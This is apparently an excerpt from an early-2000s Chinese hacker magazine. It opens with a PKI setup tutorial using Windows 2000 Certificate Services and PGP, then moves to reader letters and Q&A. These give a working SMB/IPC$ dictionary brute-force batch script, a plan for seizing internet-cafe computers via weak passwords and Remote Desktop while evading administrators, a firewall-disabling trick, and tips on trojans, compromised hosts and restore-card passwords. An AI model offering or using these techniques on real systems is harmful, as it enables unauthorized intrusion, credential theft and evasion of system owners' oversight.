用来方便用户交换公钥设立的机构，在 Internet 上运行着很多这样的服务器，你可以通过 E-mail 向它发送你的公钥，也可以取回他人的公钥。

### 公钥环
参见“密钥环”，在 PGP 里缺省的公钥环文件是 PUBRING.PGP。

### 吊销公钥
用户在自己的公钥环中烧除一个公钥，原因很多，主要是安全上的问题，可能那是一个伪造的公钥，也可能它的所有者声明作废了。对于烧除了的密钥将不能再用。

### 私钥
私用密钥，用来解密别人用你的公钥加密的信息。使用私钥必须给出口令，才能将私钥从私钥环中释放出来。

### 数字证书签名
明白了 certificate 是指一个数据块，就很容易明白 Signature certificate 是指附加的数字签名。这里既可以指对邮件的签名，又指对他人公钥的转介绍名。

## PKI体系基本概念

公钥认证体系结构是基于非对称加密密钥的结构而建立的一种安全策略体系。这种通过私钥的签发、证书的颁布和通信协议的加密等方式实现企业级别的安全保护措施，从而建立企业内部机密资料加密、身份标识的验证、会话通信传输加密等多层次的密钥保护体系。

PKI 建立的结构系统一般由三大部分组成：证书颁发机构、密钥管理机构、身份验证机制和用户应用接口。

证书颁发机构（CA）：企业级权威认证机构，可执行证书签发、证书发布、证书归档的功能职责。用户通过在线 Web 方式向 CA 提交证书申请请求，CA 通过策略设置拒绝或颁发相应的数字证书给用户，作为用户的唯一身份标识。

密钥管理机构（KM）：密钥存储、密钥恢复、密钥更新和公钥查询等职责。通过密钥管理机构，用户可获得 CA 签名的用户合法公钥，通过公钥体系进行各种应用程序的加密。

身份验证机制（IDV）：域用户帐号与用户证书一一对应，用户登录域出示合法证书，则可在域中使用企业内部各种应用程序。

用户应用接口（API）：用户可通过用户应用接口实现邮件密文传输、签名文件、自身密钥及证书管理、重要数据加密和密钥恢复策略等多种安全作业。

## 主题乐园

## PKI实现结构

根据 PKI 结构体系的概念，实际组建小型 PKI 体系，结构图如图1所示。

从整个结构图分析，首先，用户通过密钥生成程序（例如 PGP 桌面版）为自身创建一公私密钥对，并基于公钥的内容生成证书申请内容。提交的申请内容中包括申请机构、地址位置、联系方式和公钥等数据信息。信息以密钥匹配后，通过 Base64 进行编码，于是就可以向 CA 机构或者自建机构提交证书申请文件。


通过 Web 授权访问方式，用户使用 SSL 等加密通道在线访问 CA 机构，交付自己的申请内容（具体提交方法采用剪切/粘贴申请文件内容到证书申请的内容会话框中）。CA 根据自身定义策略制度检测证书申请中的内容，允许或拒绝用户申请要求，并根据 CA 机构中设置的证书安全模板颁发不同类型数字证书。用户获得 CA 颁发的证书后（这种颁发的证书是 CA 利用自己的私钥为用户的公钥签名，这样保证了用户公钥的合法性和唯一性，防止用户公钥被篡改的可能性），通过 PGP 桌面版的公钥上载程序，把含有 CA 签名的公钥上载到公钥管理服务器。公钥管理服务器验证接收公钥的同时，检测是否含有权威 CA 或者自建 CA 机构的正确签名。如果签名合法并且证书口令在有效范围，则收录于公钥管理数据库并供其他人下载公钥，方便应用。

用户通过在线 Web 方式或者邮件方式获得证书，此证书与域中的账户形成对应关系。在用户与应用服务器（如 Web）等进行交互操作时，服务器通过查询证书和账户对应关系给予相应的授权访问或拒绝通过。

独立 CA 和独立从属 CA。由于证书颁发机构的设置很重要，这里需要特殊说明，企业根 CA 和独立根 CA 都是证书颁发体系中最受信任的证书颁发机构，可独立地颁发证书。企业根 CA 需要 Active Directory 支持，而独立根 CA 不需要。从属级的 CA 由于只能从另一证书颁发机构获取证书，所以一般不被选择（图3）。


选择企业 CA，符合我们设置的 PKI 要求。在 Windows 2000 Server 中，企业根 CA 使用 Active Directory 来确定申请人的身份，确定申请人是否具有申请他们所指定的证书类型的安全权限，并由此自动确定是否立即颁发证书或拒绝申请，这种策略设置不能被更改。这种选择方式适合企业内部的授权机制，不宜暴露于公众信息网的环境中。

## PKI实现具体配置

- 企业局域网：Windows 2000 Server 组成的网络环境。使用动态目录服务组成域控制器。
- CA机构：基于 Windows 2000 的证书颁发机构。
- Web 证书管理支持：IIS 5.0，安装 CA 机构默认安装选项。
- 密钥管理服务器：PGP Keyserver 7.0，能与 X.509 格式证书很好兼容。
- 用户应用界面：PGP 8.0 桌面版。

### 1．证书颁发机构安装配置

### （1）证书机构

执行“控制面板→添加/删除程序→添加/删除 Windows 组件”，在可选项中选择“证书服务”，点击“详细信息”，确保“证书服务 Web 注册支持”和“证书服务颁发机构（CA）”2 个选项都被选中（图2）。选择证书颁发类型，主要包括企业根 CA、企业从属 CA、独立根 CA 和独立从属 CA。


安装过程需要选择密钥生成的算法及其密钥对的长度，这取决于对安全程度的要求、计算机的复杂运算能力、对响应时间的要求和系统管理证书的负载程度等（图4）。点击“下一步”按钮。

选择证书数据库及日志的位置，确认后即可进行安装。

### （2）证书模板

执行“控制面板→管理工具→证书颁发机构→策略设置”，添加定义的证书模板，如经过验证的会话、签名文件和注册代理等（图5）。


图5

另外，可以在“已颁发证书”选项中选择相应证书，单击右键进行“吊销证书”的操作。

执行“控制面板→管理工具→Active Directory 站点和服务”，点击菜单“查看→显示服务节点”，树形目录中 Services→Public Key Services→Certificate Templates，通过这里可指定某一模板为指定用户专用，也可控制某一模板的用户及其安全控制权限（图6）。

### （3）自动证书申请

执行“控制面板→管理工具→域安全策略→公钥策略→自动证书申请设置”，我们可通过自动申请的证书类型定义使证书管理自动化。

默认安装的自动申请类型是“客户端验证、服务器验证”的类型定义（图7）。


图7

### 2．Web证书管理支持

CA 机构安装时，默认安装此选项，其访问方式是 http://yourserver/certsrv，这种方式是对于任何用户都可访问的默认方式，因此必须对其进行安全配置。

执行“管理工具→Internet 信息服务→默认 Web 站点→属性→目录安全性→安全通信→申请‘服务器证书’（图8）”。把申请内容拷贝到 http://yourserver/certsrv，就可下载 CA 颁发的证书。把证书本地存盘后，执行“IIS 相关目录→属性→目录安全性”，取消除“集成身份验证”外的所有选项，然后执行“安全通信→编辑”（图9），进入 SSL 配置界面，在选择框中选“申请安全通道（SSL）”选项，再选择“接受客户证书”选项。


图8


图9

客户端的用户通过证书服务 Web 登记页申请证书。一般在用户申请中有 Web 浏览器证书和电子邮件保护证书 2 种，应先申请浏览器证书。申请递出后，将返回安装证书页面或拒绝页面。如果在证书管理的策略模块中设置的是申请待定，则返回申请已被挂起的页面。待得到申请批准的消息后重新登录 certsrv 目录，选择“检索 CA 证书目录或 CA 吊销列表”选项进行下一步（图10），点击“安装此 CA 证书路径”选项进行证书的安装（图11）。


图10

## 主题乐园

在证书安装成功后，在 IE 浏览器中执行“工具→Internet 选项”，在“高级”中选择 PCT、SSL、TLS 协议。此时用浏览器浏览 IIS 下相应的目录，以 HTTP 方式访问则出现所需证书的提示画面（没有证书则不能访问），选择你已申请的证书。若一切正确，则登录成功。


图11


图14

#### 3. 密钥管理服务器

- **（1）密钥管理服务器安装**

PGP Keyserver 服务器的安装与常用软件安装相同。安装完毕后，自动运行服务器设置向导。通过向导，可以设置服务器的配置文件存放地点、管理员登录密钥等选项。

注册登录 Web 控制台的管理员（至少必须有一个管理员），如图12。

定义 PGP HTTP 服务器的访问端口，默认值为 11371（图13）。设置访问 Web 控制台的端口，默认为 443，是通过 SSL 协议进行访问。另外，设置好密钥服务器的 DNS 名字或者 IP 地址以及管理员邮箱（图14）。

设置安全服务器的密钥（通过随机敲击键盘或移动鼠标实现）和生成 X.509 证书的安全访问方式，同时需要输入护照（passphrase）来保证密钥服务器的安全性（图15）。


图15


图12


图13

- **（2）密钥管理服务器管理配置**

执行“开始→程序→PGP Keyserver→Web Console”，启动 Web 控制台（图16）。


图16

根据本篇 PKI 所需要的环境，笔者只对重要的部分进行配置。由于服务器设置允许用户删除他们的公钥，或允许管理员删除公钥，因此，需要对访问（Access）选项进行设置（图17）。

**Required Key Signatures**：定义必须有 CA 授权密钥的公钥才能上传到服务器中。这里可从 CA 证书通过密钥管理的命令工具获得密钥 ID，以匹配策略访问。


图17

通过访问权限的设置，授权不同的用户对公钥服务器访问有不同的操作权限。权限设置分为：None、Add、Delete、Search、All 等。可灵活组合，实现特定要求。

设置允许上传密钥的策略（图18、图19）。


图18

在策略配置中，需要定义合法的密钥才能上传到公钥服务器中，意思即为：上传的公钥必须经过了证书颁发机构的密钥签名才能上传到服务器中，否则将拒绝上传公钥。

**Remove Unallowed Signatures**：公钥存储到公钥库前，删除公钥上非法的签名。这里选择 YES。


图19

**Remove Unallowed UserIDs**：公钥存储到公钥库前，删除公钥上非法的用户 ID。这里选择 YES。  
**Remove PhotoIDs**：公钥存储到公钥库前，删除公钥携带的照片信息。为减小公钥库的容量，这里选择 YES。  
**Accept Key Reconstruction Data**：接受公钥的重构数据。由于需要建立密钥恢复机制，这里选择 Yes。

当密钥不符合策略设置，拒绝此密钥并忽略，而不是送到悬挂桶（pending bucket）中等待检验，提高了上传公钥的合法性。因此，Action on Key Policy Failure 选择“Return Error Message”。

通过以上设置，我们建立了密钥管理、密钥恢复、密钥备份、密钥正确性验证、公钥检索的公钥管理机构。

#### 4. 用户应用界面安装配置

- **（1）PGP 安装**

PGP 8.0 桌面版安装和 Windows 应用程序一样。安装过程中，产生用户的密钥对和护照（passphrase）。同时，密钥对将存储在密钥环（Keyring）中。密钥环可以存储用户的密钥对和其他人的公钥。安装后，生成 PGPtray（图20）。

- **PGPkeys**：创建个人的密钥对，可通过它得到其他人的公钥对，并对公钥进行管理。  
- **PGPmail**：加密发送给其他人的邮件内容，或解密其他人发送给自己的加密邮件。  
- **PGPdisk**：加密磁盘或硬盘文件，即使磁盘被盗也能防止泄密。

根据所建立的 PKI 体系环境，本段按实现应用的步骤介绍 PGP 桌面版的运行顺序。

- **（2）X.509 个人证书申请**

X.509 证书是一种标准的、基于公钥机制进行密文传输、身份识别等特殊环境下使用的通用标准。PGP 8.0 支持 X.509 证书。所谓证书申请，即用户提交包含自身公钥和用户信息生成的证书申请请求给 CA 机构，CA 机构根据策略，对用户公钥签名并发放给用户。即企业级的用户证书是有 CA 签名的用户公钥。申请步骤如下：

1. 获得并安装 CA 根证书到本地密钥环。通过在线 Web 方式连接 CA 机构，当出现安全警报对话框，单击按钮“查看证书”，选择证书对话框中的“详细信息”，复制证书内容到文件（图21）。
2. 使用记事本打开下载的证书文件，复制内容到 PGPkeys 中，输入用户 passphrase。CA 根证书就存储到本地的 Keyring 库中。
3. 使用自身私钥对 CA 证书进行签名，并设置其信任程度为完全信任。在 PGPkeys 选择“CA 证书→鼠标右键→Sign→输入 passphrase”（图22）。
4. 设置信任程度：执行“PGPkeys→选择 CA 根证书→鼠标右键→Key Properties→拖动滑动条到 Trusted”（图23）。
5. 设置 CA 机构（图24）：执行“PGPkeys→选择菜单 Edit→Options→CA”。
6. 在 CA URL 和证书吊销 URL 中填写 CA 机构地址；Windows 2000 证书颁发机构建立时两个 URL 地址相同，类型选 Windows 2000，点击“Select Certificate”自动下载根 CA 证书。
7. 证书申请文件：选择自己的公钥对，执行“PGPkeys→Keys→Add→Certification”（图25）。
8. 可在证书申请文件中加入信息字段（如邮件地址、城市、地址、邮编等），完成后生成证书请求内容并复制到剪贴板。
9. 通过 CA 在线方式（浏览器已安装 CA 授权证书）使用高级用户申请方式，将申请内容复制到服务器（图26、图27）。
10. 提交申请后，根据 CA 机构策略获得带 CA 签名的证书（含用户公钥），再将证书导入用户 Keyring（可直接拖拽到 PGPkeys 界面），如图28。


图21


图22


图23


图24


图25


图26

- **（3）连接公钥管理机构**

与公钥管理连接相当容易。设置连接企业的公钥服务器：打开 PGP Options 设置对话框，选择“Server→New”，填入服务器相对应的信息，诸如服务器类型、地址、端口号等参数，并选择服务器同步的全部选择框（图29）。这样，本地的公钥能自动与公钥服务器的公钥实现自动同步，保持公钥的一致性和完整性。

在 PGPKeys 中，选择 Server 菜单，选择 Send to 到企业的公钥管理服务器（图30）。服务器根据公钥的签名是否含有 CA 签名来接受或拒绝存储公钥。

通过以上步骤，建立起了一个结构合理的 PKI 应用环境体系。

### 运用实例

本 PKI 体系的应用接口主要使用 PGP 桌面版本，实现邮件加密、磁盘文件加密、公钥的管理和传递等多种功能。

#### 1. 邮件加密

首先通过搜索公钥服务器，选择需要加密通信对象的公钥，并导入到本地 Keyring（图31）。


由于 PGP 桌面对 Outlook Express 提供插件支持，因此编写邮件可直接提供信件的加密功能（图32）。

**注意：**指定发送加密内容给指定的对象，其公钥必须存在本地的 Keyring。


也可以使用 PGP 的 PGPMail 组件进行邮件编写（图33）。

另外，还可使用自身密钥对邮件进行签名，这样可防止身份抵赖、伪装用户身份等安全威胁。

### 2. PGPdisk 可实现对磁盘文件数据进行加密保护

创建一个 New PGPdisk Volume.pgd 的加密存储空间，默认大小为 100M（图34）。


选择保护方式：公钥保护、口令保护。对于信息在企业范围内共享的选择公钥保护，对于个人隐私可选择口令保护。最后，PGPDisk 生成加密空间，通过使用 PGP 工具——Mount Disk 挂起加密空间，向其中存放被保护的文件（图35）。


#### 3. 密钥恢复机制

建立密钥恢复策略，在密钥丢失或护照忘记时可以恢复密钥。在创建密钥时，选择 Key Reconstruction，出现重构密钥对话框（图36）。填入 5 个问题和 5 个答案，公钥管理服务器把这些信息上传保存。当需要恢复密钥时，执行“PGPkeys→选择菜单 Key→Reconstruct key”。正确回答你曾经输入的问题，就可以恢复密钥。

> 这里是恢复公钥，私钥的丢失是不可恢复的。

#### 4. 证书域登录

通过证书与动态目录域映射关系，用户登录域就可使用企业内部的一些共享资源和应用程序，不必为每个特定的企业级应用程序提供相关口令和账户。

以管理员身份登录域控制器，执行“管理工具→Active Directory 用户和计算机→选择需要映射的用户账户→名称映射（鼠标右键）”，如图37。


为用户添加相应的用户证书，实现域用户账号与用户证书的对应关系，实现基于证书的安全企业级应用环境。


本 PKI 体系结构实现了证书颁发、密钥管理、应用实现等基本框架结构，实现企业用户在信息交流、数据存储方面的安全性保障系统，为企业内部安全化管理提供了有效参考。

通过多种服务应用所构架的 PKI 应用体系，为企业安全共享资源、身份标识、安全通信等方面都带来了巨大的好处。通过证书、公钥方式保证了机密资料的安全性和用户交流的安全规范。

### 关于《还原精灵密码破解》一文的几个问题

自从 2002 年在《黑客X档案》第 4 期发表《还原精灵密码破解》一文后，有很多朋友来信询问相关问题，我的邮箱每次都有很多问题邮件。不过，重复的问题很多，所以我在此回答一些网友们的问题。

1. 我用你的《还原精灵密码破解》一文的方法破解某网吧的还原精灵，找到真正的密码后应用时提示密码错误，为什么？
2. 我的还原精灵在右下角的图标是红的，右键菜单是灰色不可选，如何解决？
   - （1）还原精灵安装后没有重启；
   - （2）计算机进入的是安全模式；
   - （3）没有安装还原精灵，只是运行了还原精灵程序而已；
   - （4）管理员装的还原精灵，但你是以 guest 或非管理员用户登录（常见于 NT/2000/XP 等系统）。
3. 网吧里右下角没有你说的图标怎么办？
4. 用某些破解软件（如“广外女生”）为什么找不到密码或提示密码错误？

文中进一步说明：第 1、2 种情况通常不可能，常见是第 3、4 种。可通过运行还原精灵安装目录主程序恢复图标；找不到安装目录可重新下载并运行。密码查找方面，内存中有时能找到，但使用 WinHex 手工分析更稳妥。作者还建议可在密码中混合小数点、空格和特殊字符以提高破解难度。


### 对 Win2K 命令行下自做弱口令扫描器的补充说明

红衣刺客

看了《黑客X档案》2003 年第 1 期中的《Win2K 命令行下自做弱口令扫描器》一文，感觉不错。文章作者用简单批处理命令实现了弱口令扫描器的制作。这里补充一点：并不是一句话无法实现用户名和密码字典的循环破解，我用一句话同样可以实现。

把下面的代码保存为 `SMBCrack.bat`：

```bat
FOR /F %%K IN (%2) DO FOR /F %%J IN (%3) DO NET USE \\%1\IPC$ %%J /USER:%%K & IF errorlevel 1 echo IP:%1 U:%2 P:%3 >> SMBCrack.txt
```

这句话利用了 FOR 的双循环，循环猜解用户名和密码，如果成功则把用户名和密码写入 `SMBCrack.txt`。


## X补丁铺

### 对《把网吧制作成个人主页》一文的补充

cangzhu

在 2003 年《黑客X档案》第 4 期中有一文介绍如何把网吧打造成个人主页空间，我对作者的奇妙想法很是赞赏（网吧的在线率高啊，还有网管的弱智）。作者禁止 IP 127.0.0.1 访问该主页很是令小弟佩服！但是，该方法也有缺陷。比如说，我们是与网机进行交互式的连接，一举一动都能让管理员发现，更不可能在上面做主页。在主机上安装 DameWare NT Utilities（光盘中有收录）后，会在主机的任务栏显示出来，如图1所示。


而且主机的进程管理里有 DNTU26.exe。还有，我们通过 DameWare NT Utilities 与网机连接，前提是目标主机开了 6129 端口，虽然我们可利用 administrator 及口令来给它安装（图2、图3），但管理员可以改变 DameWare NT Utilities 的端口及连接口令，方法如下：


打开 DWRCS.exe，做图4所示的设置，改变了 DameWare NT Utilities 的端口及连接用户名与密码，我们就没辙了。还有时候，不知道为什么，会出现图5所示的情况。虽然 DameWare NT Utilities 在别的攻击方面挺强（如共享、进程管理、用户管理等），但在打造个人主页空间时，我们应选择 Win2000 终端服务。大家应该都知道了吧，就是 3389 端口啊！它能直接控制目标主机的桌面，并且在进行任何操作时，在管理员（这里的管理员是网吧里的 xx）的桌面上没有动静，所以这些只会单击和双击的网吧管理员是不会发现的。

因此，我们总的思想是：利用 x-way、x-scan 等扫描软件得到弱口令及 80 端口，然后开启对方的 3389 端口。开启 3389 端口的方法很多，如改注册表、写批处理文件/VBE 文件等。（《黑客X档案》前几期都有介绍，在这里就不再赘述。）等开启了 3389 端口后，我们就可为所欲为了，不仅仅是在上面做主页，如 FTP、SMTP、Telnet、Proxy 等，不要做得太过火了。本文如有不足之处，希望大家继续讨论！

### 《对千年金山防火墙，金山网镖的远程主机入侵》一文续

XLP

拿到 2003 年《黑客X档案》第 4 期后，对其中的《对千年金山防火墙，金山网镖的远程主机的入侵》（后面简称《对》文）产生了兴趣。因为我也曾经研究过怎样突破防火墙，但仔细看完后却发现了一些问题，在此特写出来与大家探讨。

### 一、IPC$连接

从《对》文中的进程来看，防火墙确实是金山网镖。文中作者有这样一段话：“……都放在 C:\ 下，然后利用 OPENTELNET.EXE 打开远程主机的 TELNET”，在这里我产生了疑问。我记得 OPENTELNET 程序是确定对方服务器开放 IPC$ 共享，并且有合法权限的账号后才可以使用的。在以前研究防火墙时，记得金山网镖安装完成后默认的安全等级是“中安全级”。中安全级及其以上的安全等级对共享处理的方式都是阻挡的（图1）。


图2

错误 53 也就是找不到网络路径，换句话说就是 IPC$ 连接被拒绝了。当 IPC$ 被拒绝时，何谈再用 NET 来映射盘符上传文件？可能有的朋友会说，没准对方网管疏忽把这里设成了允许 IPC$ 共享，或对方应用低安全级别，那样不就可以了吗？OK！我们把这里全当作允许吧。

#### 二、防火墙策略——访问控制

在《对》文中，作者在不久后即写到“在 TELNET 窗口用 LIST 查看对方当前进程”，这里似乎又有问题了！刚刚才打开的 TELNET 服务似乎还没有通过金山网镖的程序访问控制。我又尝试打开 TELNET 服务，但这次我用 admin 账号使用常规的方法来打开，网镖发出了报警。如图 3。

图3

> **经验谈**  
> **程序访问控制**：当 Windows 系统的应用程序发生访问网络的操作时，将会被金山网镖截获。此时，防火墙将根据用户对此应用程序的网络权限设置，处理应用程序的网络操作。缺省的处理方式为应用程序发生网络操作时给予用户提示，由用户决定是否给予此应用程序访问网络的权利。用户还可在这之后，在应用程序网络权限列表中更改先前的设定。

经过多方尝试，在允许了 TELNET 服务访问网络，并将安全等级降为低等级后，才能完成《对》文中作者的这一系列动作。对于这样设置的防火墙，我想也不能称之为防火墙了。

#### 三、误区

在论坛上经常也会看到一些朋友提出“对方开了防火墙，我现在不能连接了，怎样才能关掉防火墙”之类的问题。往往回答的朋友都会简单地说“用 pslist 列出远程机器的进程，再用 pskill 杀掉进程就可以了”。仔细看了上面内容的朋友们，现在也许就发现问题了。没错！pslist 远程列举进程同样也要先建立 IPC$ 连接，在建立连接时，防火墙默认设置是拒绝连接的。既然 IPC 连接都没有成功建立，何谈后面的进程列举和杀进程呢？当然，如果防火墙被人改为允许 IPC$ 连接的话，这个办法还是可行的。但此时的防火墙应该也只是一个摆设了，并没有很大的探讨价值。

对于目前防火墙的突破，我只有几次成功的经验，这里跟大家分享一下。其实防火墙运行后，并没有继续调用它的执行文件。这时候执行文件没有处于被锁定状态。用防火墙允许的端口（如：21、80、1433 等），稍有权限的用户就可将执行文件改名，等下次系统启动时因为找不到文件，防火墙就不会再运行了！这个方法对我目前测试过的软件防火墙全部有效。缺点是等待的时间太长，稍细心的网管会发现防火墙没有运行，呵呵！

以上就是我的疑问和看法，谨代表个人观点，大家如有不同看法，欢迎来 www.hackerxfiles.net 讨论。

## 呆呆虫问吧

经常在杂志上看到“肉鸡”这个词，因为我实在是太菜了，不明白这个词到底是什么意思。“肉鸡”是不是就是计算机，那我的计算机是不是肉鸡？

“肉鸡”和“肉机”在黑客界中指的是对远程的一台计算机拥有完全控制的权限，可以随意上传、下载文件。当然一般的黑客所拥有的肉鸡一般是为自己工作的，一般跑个字典、做个代理或者做跳板都是不错的。

我的机器现在进不去 Windows，一开机显示 CWBAUDIO.DRV，在预期的 I/O 地址找不到 CS4232 CODEC。我又删除了 Windows 并重装后还有上述显示，重启后还是进不去 Windows，屏幕上黑屏左上角有光标显示。只能在安全模式下和 DOS 下运行，是否中了病毒或木马程序，请帮忙！

不知道你在安装 Windows 的时候是不是在重新格式化 C 盘的情况下安装的。首先要检测你的 Windows 安装盘是不是没有问题；如果换了其他安装盘还出现上面的现象，就有可能是你计算机某个硬件产生了冲突造成的。可以进入安全模式，在“设备管理器”中把有“！”和“？”的设备删除，再安装此硬件的最新驱动试试。

我是《X档案》的忠实读者，喜欢呆呆虫问吧。我想问一个问题：我用的系统是 XP，我在进程中发现一个映像名称为“SYSTEM IDLE P...”，用户名为“SYSTEM”的东西，它 CPU 占用很多，这正常吗？速回，谢谢。

你说的这个进程应该是 SYSTEM IDLE Process，对吧？它应该是系统不处理其他线程的时候分派处理器时间用的，是无法关闭的，这是正常现象；当你运行的程序越多时，它的数值反而会相应变小。

亲爱的呆呆虫：你可要帮帮我，刚买了杂志，就是不能看，气死我啦！我用的是 WinME，今天我想看杂志上的《嘟嘟》，就打不开了，显示 Windows 无法找到 Happywin.exe。这程序用于打开“HTML Document”类型的文件。我用瑞星查毒，查不到，这是为什么？我该怎么办？

首先升级你的杀毒软件，再查杀一次。在排除不是病毒作怪的情况下，可以去同样有 Happywin.exe 文件的计算机上把它拷贝到你的计算机中。

呆呆虫，你好，我是黑客 X 档案的爱好者，期刊必读，它让我学会了许多关于网络方面的知识，但是我还是很菜，所以发个伊妹儿给你，向你问几个问题。我昨天晚上在网吧上网时中了别人的木马，名字叫“春节前的烟花”。但是打开后没任何反应，我知道这是运行冰河客户端的现象。我就是想问问，在我运行冰河客户端的时候，怎样可以知道我中了别人的木马了？他种木马把我的 QQ 盗了，不过又让我收回来了。还有，为什么下载流光 4.7 点击安装后总出现 DLL Loader failed 的字符？

关于怎么知道自己有没有中木马，这个是没有一个固定的方法的。不过大多数木马运行后都会在进程和系统启动中留下痕迹，所以需要你对自己计算机正在运行的进程有所了解才可以。至于你安装流光 4.7 后出现“DLL Loader failed”，是因为流光 4.7 需要在 NT/2000/XP 下运行，所以请升级你的系统。

- POP 服务器和 SMTP 服务器有什么不同？
- 一个地区的网段我怎样才能知道？
- EMAIL CRACK 怎样使用？如对我这个邮箱使用又怎样配置 EMAIL CRACK？
- 什么是输入法漏洞？怎样利用这个漏洞入侵？

1. POP 服务器和 SMTP 最根本的区别就是，一个是接收邮件服务器，一个是发送邮件服务器。  
2. 随便找一个这个地区的主机，然后 ping www.xxx.com，如果得到的 IP 是 111.222.333.444，那么 111.222.333 就是它所在的网段了。  
3. 不管用什么软件破解 EMAIL 的密码，基本上都是撞库暴力破解。这期的《神策园》中介绍了一款破解 EMAIL 的软件“墨雨”，它的设置很简单。  
4. 输入法漏洞大多被用到入侵中文 Win2000，但是有这种漏洞的主机越来越少了，具体利用过程详见《黑客X档案》第三期《3389 端口入侵详细分析》一文。

我装机房的电脑都装有硬盘还原卡，我想破它，你能告诉我它的默认密码吗？救命！！救命！！

答：三茗电脑卫士听说有个万能密码 ngsanmin*（最后一位的 * 代表一个小写英文字母），你可以自己试试。

呆呆虫您好！我是贵刊的忠实读者，我想问你个问题，我很喜欢玩木马，一般是在一个网吧里进行。如果在两个网吧里进行，是否行呢？例如：冰河，我已经在那儿中了，当我填上从 QQ 那儿得到的 IP 地址，能建立连接吗？

现在木马连接方式可以分为两类：一种是像冰河那样需要我们主动连接服务端的，这样的木马一般不能直接连接局域网内部的计算机，除非你们同处一个局域网（同一个网吧）；另一种是现在比较流行的反弹端口木马，即服务端通过 FTP、域名、信箱主动连接客户端，但是这样的木马控制端无法在局域网内使用。

忘记还原精灵 5.0 密码怎么办？

可以通过一个叫“还原精灵 5.0 密码读取软件”来找回你丢失的密码，下载地址是：http://bgbbs.www70.cn4e.com/showsoft.asp?soft_id=49

## 呆呆虫问吧

我查到的内部 IP，怎么也查不到，呆哥，这个应该怎么查啊？

你应该先把 X-Scan 里面“扫描参数”中的“无条件扫描”前面的勾打上。

在 2003.2 里的入侵全攻略里介绍了 DameWare 这个软件，我已经连接上了远程计算机。关键是在他的机器里怎么用 shares 建目录和拷贝文件呀？我只能用 remote command 里的 rcmd view 在他的 system32 里建立目录，可是怎么把 clearlog.exe 和 wollf.exe 拷贝到目录里呀？我用 IPC 空连接建立后，只能把 clearlog.exe 拷贝过去，wollf.exe 死活都不行。

既然 clearlog.exe 文件可以顺利拷贝过去，而 wollf.exe 文件却不行，可能是因为 wollf.exe 被杀毒软件默认为病毒而自动删除的缘故。

我的电脑在安了金山网镖 2003 后，开机加载防火墙失败。电脑显示“无法在端口 110 建立 POP3 监控，可能该端口已经被其他应用程序使用”，请问我该怎么办？

POP3 用于接收邮件，通常默认的端口是 110。如果你的计算机有其他程序同样占用了这个端口，就会出现这样的现象。如 Netscape Mail，它不能改变 POP3 端口号，它被强迫到 110 端口时你只能指定 110，所以你需要了解自己的计算机上有哪些程序占用了 110 端口。

我的电脑装了 XP 和 WinME 两个系统。但是 X档案的配套光盘里的好多软件都无法使用。这是为什么呢？我是否还要装 NT、2K？请告诉我好吗？谢谢！

配套光盘的软件我们全都在中文 WinXP 下安装测试运行过。你所说的好多软件都无法使用，可能是由于你的计算机没有安装 WinRAR 解压缩软件造成的。你可以在光盘中找到这个软件并安装。

本人在浏览了无数次黑客网页后，机器出现了问题：1、速度变慢了。2、所有的程序不能控制，出现“WINDOWS 无法连接指定的程序，可能你没有合适的权限”的提示。呆呆虫大侠，我该怎么办呢，请求得到你的救援。

一些所谓的黑客做的网页为了达到给自己宣传的目的，总是要在网页中加入一些更改注册表的东西，提高自己主页的访问量。还有很多人喜欢加一些木马或病毒。现在可谓亡羊补牢，为时已晚了，说不定你的计算机正被那些所谓的黑客控制着呢！建议还是重装一遍系统，经常备份注册表，安装杀毒软件和给 IE 打补丁也是必须的。

我想知道 SOFTICE 为什么会自动跳出呢，我上搜狐的时候它老不请自来，按 F5 键它也不消失。只好按 R（回到 SOFTICE），然后按 F12，这样它会消失，但整个机器会出现停顿现象，不重启的话就别想好好玩了。我想知道这究竟为什么呀？接着我的第 2 个问题是，装两个版本的 QQ 一起使用，会不会有冲突呢？

SOFTICE 自动跳出可能是由于你的系统不稳定造成的，像很多调试工具最好能够让它们工作在 2000/XP 下。还有 QQ 应该是可以多个版本一起使用的，只要你在安装的时候不是选择同一路径，就不会有问题的。

当我用终端登录一台 3389 的主机时，它要我按 Ctrl + Alt + Del，可是我只要一按下，本机就会出现任务管理器，我该怎么办？

通过 3389 终端登录时，快捷键和本机会有所不同，Ctrl + Alt + Del 对应的快捷键是 Ctrl + Alt + End。

我想申请一个 QQ 以便和朋友联系用，可是我用 QQ 的注册向导根本无法申请下来！总是在最后一步提示注册繁忙，请过一段时间再申请，这是为什么？

现在通过 QQ 的注册向导是无法申请下来的，不过还是有个方法。腾讯好像对台湾的 IP 用户可以用注册向导申请下来，所以你可以找你的台湾朋友帮忙，或者找个台湾的肉鸡自己申请。

听说很多网页可以格式化硬盘，或是有病毒之类的，我很害怕。但是在我不登录那个页面的情况下，怎么才能看到那个页面的源代码呢？

你可以在浏览器地址栏中直接写入“view-source:http://地址”后按回车，那个页面的源文件就会显示在你面前了。

听说使用网络代理可以隐藏自己的 IP 地址，请问在局域网内使用它是不是也能隐藏自己的 IP 地址，是否在互联网上别人看不见我的真实 IP？

使用代理不仅可以让别人看不到你的真实 IP，而且一个好的代理地址还可以加快你上网浏览网页的速度。QQ 使用的是 SOCKS5，而 IE 使用的是 HTTP，所以设置代理的时候要找相应的代理。

前一段时间浏览了一些网站，结果 IE 标题栏被改，听说可以从注册表中恢复，但是我根本无法运行 REGEDIT，请帮我解决一下。

如果连 REGEDIT 都无法运行的话，可以通过查找找到 REGEDIT.EXE 这个文件，把它改成 REGEDIT.COM 然后运行，就可以打开注册表编辑器了。

我的计算机最近一直受到局域网内网络执法官的攻击，一直 IP 冲突掉线，请问有什么办法吗？

先用抓包软件截取网络中的 ARP 包，比如 IRIS。抓包后你就可以看到向网段中所有 IP 地址发送虚假 ARP 包的 IP 地址，就是捣乱的人。如果你的子网掩码是 255.255.255.0，捣乱的 IP 会给 xxx.xxx.xxx.1 到 xxx.xxx.xxx.254 发送虚假 ARP 包，可以很容易发现对方。

近日，我们的 Win2000 服务器上频繁出现“信使服务”发来的消息！内容主要以宣传网站为目的，怎么样才能拒绝这样的消息？

运行 CMD，然后输入 `net stop messenger` 回车，就可以终止 messenger 服务；运行 `net start messenger` 可以恢复 messenger 服务。

怎样通过 telnet 登录后，把 3389 的用户注销掉？

方法很简单，你只要首先看一下登录用户都是哪些（命令：`query session`），然后就可以踢掉你指定用户了（命令：`logoff ID`）。

我安装的流光 4.7 在运行的时候为什么总是提示已经过期，然后就退了出来？我现在只能用 X-SCAN 了！

